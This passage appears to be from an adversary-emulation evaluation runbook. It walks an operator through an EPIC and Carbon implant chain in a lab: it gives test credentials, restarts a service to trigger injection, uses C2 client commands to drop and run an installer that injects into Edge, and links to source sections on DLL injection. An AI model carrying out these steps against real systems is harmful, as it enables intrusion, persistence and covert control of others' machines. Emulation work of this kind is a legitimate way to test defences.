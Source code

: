 :arrow_right: Minimize (do not close) the `hobgoblin` RDP window.

:arrow_right: RDP into `bannik (10.20.10.9)`, as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Close any spurious windows.

* Open up an administrative Powershell session and run the following commands to remotely restart the service:

```powershell
sc.exe \\hobgoblin stop ViperVPNSvc
sc.exe \\hobgoblin start ViperVPNSvc
```
ℹ️ Starting the ViperVPN service should take at least 30 seconds and eventually
result in an error `[SC] StartService FAILED 1053`. The EPIC injector will wait
an additional 2 minutes before performing injection. If the `[SC] StartService
FAILED 1053` error occurs in less than 10 seconds and/or you don't receive a
new session, contact your Evals lead.

* Wait for the command to return and then :o: sign out of your RDP session to `bannik` as `Frieda`

:arrow_right: Switch to your Kali attack station and confirm that a new elevated implant has registered.

:arrow_right: Switch back to your Kali terminal and task the SYSTEM level EPIC implant to download the CARBON-DLL installer:
```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'name | C:\Windows\System32\WinResSvc.exe | dropper.exe'
```

* Wait for the command to return and then task the EPIC implant to execute the CARBON-DLL installer:
```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'exe | C:\Windows\System32\WinResSvc.exe'
```

* CARBON-DLL should inject into the Microsoft Edge process and beacon back to the C2 server. Check that there is a new Carbon implant session registered with the C2 server

* Wait for the command to return and then task the Carbon implant to execute some discovery commands:
```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 0, "cmd": "whoami"}'
```

---

### :moyai: Source Code

* [EPIC Dropper](SimpleDropper.)
  * [File write of EPIC injector as mxs_installer.exe](Source.cpp#L34-L50)
  * [Registry modification](Source.cpp#L95-L143)
* [EPIC injector](reflective_injector.)
  * Extract EPIC Guard DLL from resources section [FindResourceW](Source.cpp#L162-L194)
  * Targeting explorer.exe for [DLL injection](Source.cpp#L200-L234)
* [EPIC Guard](reflective-guard.)
  * Extract EPIC payload DLL from resources section [FindResourceW](dllmain.cpp#L158-L190)
  * Targeting browser processes for [DLL injection](dllmain.cpp#L232-L280)
* [EPIC Payload](payload.)
  * Execute commands [ExecCmd](epic.cpp#L47-L71)
  * User discovery [GetAllUsers](epic.cpp#L111-L182)
  * Directory discovery [DirectoryDiscovery](epic.cpp#L257-L298)
  * Write results to log file [WriteResults](epic.cpp#L311-L345)
  * File download [DownloadFile](epic.cpp#L441-L466)
  * C2 communications are:
